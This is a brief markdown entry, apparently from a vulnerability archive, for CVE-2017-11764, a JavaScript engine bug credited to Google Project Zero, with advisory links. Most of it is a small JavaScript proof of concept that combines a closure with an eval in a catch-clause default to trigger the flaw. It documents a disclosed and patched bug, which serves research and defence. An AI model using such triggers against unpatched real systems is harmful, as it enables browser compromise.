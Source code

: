 # CVE-2017-11764

- Fix: Sep 2017
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function f() {
    {
        let i;
        function g() {
            i;
        }

        try {
            throw 1;
        } catch ({e = eval('dd')}) {
        }
    }
}

f();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-11764)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1326)
